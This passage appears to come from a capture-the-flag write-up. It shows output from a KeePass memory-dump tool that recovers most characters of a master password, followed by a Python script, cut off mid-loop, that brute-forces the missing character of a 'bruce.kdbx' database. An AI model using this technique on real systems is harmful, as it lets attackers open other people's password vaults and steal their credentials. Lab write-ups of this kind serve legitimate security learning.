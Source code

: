 So it's better we go with the .net [tool](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file) which is better.
```
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	w, |, Q, B, }, j, , Ë, +, , s, ü, r, {, :, d, Ô, §,                                                                                    , ,  , ;, 8, Þ, , F, Á, 1, i, 0, c, u, Ç, , ç, q, Í,  Ö, Ø, !, 5, , è, £, ®, Ñ, `, , , X, 6, È, %, ), Ì, &, ", 	,  , Å, Û, ¨, ', -, @, û, R, , 
                                              , ð, ÷, ý, a, \, 3, t, H, A, Ú, y, ã, Ý, 7, , p, 
3.:	&, 
4.:	Y, 
5.:	é, 
6.:	Q, 
7.:	), 
8.:	8, 
9.:	h, T, 
10.:	<, 
11.:	), 
12.:	1, 
13.:	T, 
14.:	2, 
15.:	j, 
Combined: ●{w, |, Q, B, }, j, , Ë, +, , s, ü, r, {, :, d, Ô, §,                                                                                , ,  , ;, 8, Þ, , F, Á, 1, i, 0, c, u, Ç, , ç, q, Í,  Ö, Ø, !, 5, , è, £, ®, Ñ, `, , , X, 6, È, %, ), Ì, &, ", 	,  , Å, Û, ¨, ', -, @, û, R, , 
                                              , ð, ÷, ý, a, \, 3, t, H, A, Ú, y, ã, Ý, 7, , p}&YéQ)8{h, T}<)1T2j
```
lets write a easy script to bruteforce the password
```py
#!/usr/bin/python

from pykeepass import PyKeePass
import sys

f = 'bruce.kdbx'

charset = [
        'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M',
        'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z',
        'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm',
        'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
        '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
        '`', '!', '@', '#', '$', '%', '^', '&', '*', '(', ')', '-', '_', '=', '+',
        '[', ']', '\\', '|', '{', '}', ';', ':', "'", '"', ',', '<', '.', '>', '/', '?',
        ' '
]

with open('dbpass.txt', 'r') as file:
    pwds = file.read().split("\n")

count = found = 0
total = len(pwds)
for p in pwds:
    for char in charset:
        password = char+p
        try:
            db = PyKeePass(f, password=password)
            print("Valid password found for %s : %s" % (f,password))
            found = 1
        except Exception as err:
            print(err)
            if found == 1:
```